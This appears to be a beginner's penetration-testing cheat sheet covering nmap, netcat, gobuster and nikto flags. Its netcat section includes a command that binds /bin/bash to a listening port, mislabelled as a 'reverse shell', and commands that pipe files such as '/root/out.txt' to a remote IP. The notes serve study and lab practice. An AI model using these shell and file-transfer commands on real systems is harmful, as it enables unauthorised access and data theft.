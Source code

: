 hackerone -> bug bouty
hacker101 -> ctf
hellbound hackers -> for basic web hacking
__NMAP__
-p -> specify port to scan
-sn -> ping scan
-sU -> UDP scan
-sC or --script -> use default scripts
-O -> OS detection
-sV -> version of services running on target
-A -> "aggressive mode"(OS detecton,version,traceroute)

__NETCAT__
nc -l 4545 -> creating a listner
nc (ip of listner) 4545 -> connect to the listner

nc ip 80
HEAD / HTTP/1.0

nc -l -p 4545 -e /bin/bash -> creating a reverse shell
file sharing
nc -l -p 4545 > out.txt -> creating listner expecting "out.txt"
cat '/root/out.txt' | nc ip 4545
nc -w 3 ip 4545 < out.txt        both can use to send file

__gobuster__
find directories- gobuster dir -u 10.10.40.230 -w usr/share/wordlists/dirb/common.txt 

find extensions - gobuster dir -u 10.10.40.230 -w /usr/share/wordlists/dirb/common.txt  -x .php

__NIKTO__
scan for vulnerabilities
nikto -h example.com 
nikto -h example.com -ssl -> to scan about ssl certs

